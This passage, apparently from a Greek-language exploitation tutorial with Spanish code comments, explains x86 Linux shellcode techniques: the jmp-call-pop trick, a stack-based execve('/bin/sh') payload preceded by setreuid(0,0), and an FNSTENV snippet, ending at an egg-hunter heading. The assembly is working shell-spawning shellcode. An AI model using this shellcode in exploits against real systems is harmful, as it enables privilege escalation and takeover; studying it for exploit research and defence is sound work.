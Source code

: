 Κατά τη δημιουργία shellcodes μπορείτε να χρησιμοποιήσετε ένα κόλπο. Η πρώτη εντολή είναι ένα jump σε ένα call. Το call καλεί τον αρχικό κώδικα και επιπλέον τοποθετεί το EIP στο stack. Μετά την εντολή call έχουμε τοποθετήσει το string που χρειαζόμαστε, έτσι με αυτό το EIP μπορούμε να δείξουμε στο string και να συνεχίσουμε να εκτελούμε τον κώδικα.

Π.χ. **ΚΟΛΠΟ (/bin/sh)**:
```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
**Χρήση του Stack(/bin/sh):**
```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```
**EJ FNSTENV:**
```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```
**Κυνηγός Αυγών:**
